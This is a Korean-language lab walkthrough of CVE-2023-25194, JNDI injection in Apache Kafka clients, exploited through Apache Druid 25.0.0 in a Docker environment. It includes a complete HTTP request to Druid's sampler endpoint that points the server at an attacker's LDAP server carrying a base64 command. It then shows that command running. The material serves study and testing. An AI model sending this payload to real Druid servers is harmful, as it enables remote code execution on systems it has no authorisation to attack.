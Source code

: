 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

Apache Kafka는 오픈 소스 분산 이벤트 스트리밍 플랫폼으로, 실시간 데이터 스트리밍과 처리에 사용되는 플랫폼입니다. Kafka 클라이언트는 Apache Kafka로부터 메시지를 생성하고 소비할 수 있는 Java 라이브러리 집합입니다.

버전 3.3.2 이전의 Apache Kafka 클라이언트에서 JNDI 삽입 문제가 있습니다. 만약 공격자가 어떤 연결자(Kafka 클라이언트)의 `sasl.jaas.config` 속성을 `com.sun.security.auth.module.JndiLoginModule`로 설정할 수 있다면, 공격자는 서버가 공격자의 LDAP 서버에 연결하도록 할 수 있습니다. 이렇게 하면 서버가 LDAP 응답을 역직렬화하게 되고, 공격자는 Kafka 연결 서버에서 java 역직렬화 가젯 체인을 실행하기 위해 LDAP 응답을 사용할 수 있습니다. 결과적으로, 공격자는 클래스 경로에 가젯이 있는 경우 신뢰할 수 없는 데이터의 무제한 역직렬화 또는 RCE 취약점을 유발시킬 수 있습니다.

이 문제는 Java 라이브러리에서 발생하므로, kafka-clients 라이브러리를 사용하는 실제 소프트웨어를 찾아야 합니다.

이 소프트웨어는 Apache Druid이며, Apache Druid은 kafka-clients 라이브러리를 사용하여 그 중 하나의 데이터 원본에 연결합니다. 이 안내서는 Apache Druid 서버에서 CVE-2023-25194를 어떻게 악용하는지를 보여줍니다.

참고 자료:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 취약한 환경

Apache Druid server를 실행하기 위해 아래 명령을 실행하십시오. 이 명령은 kafka-clients 3.3.1에 종속된 Apache Druid 25.0.0 서버를 시작합니다.

```
docker compose up -d
```

서버가 시작되면 Apache Druid의 홈페이지를 `http://your-ip:8888`에서 볼 수 있습니다.

## 악용 공격

먼저, [JNDIExploit](https://github.com/vulhub/JNDIExploit)을 사용하여 악의적인 JNDI 서버를 시작하십시오:

![](1.png)

이 도구에서 악의적인 URL을 얻게 될 것이며, 이를 수정하세요.

악의적인 LDAP URL을 다음 요청에 붙여넣고 보내세요.

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

보시다시피, `id > /tmp/success`가 성공적으로 실행되었습니다.

![](3.png)
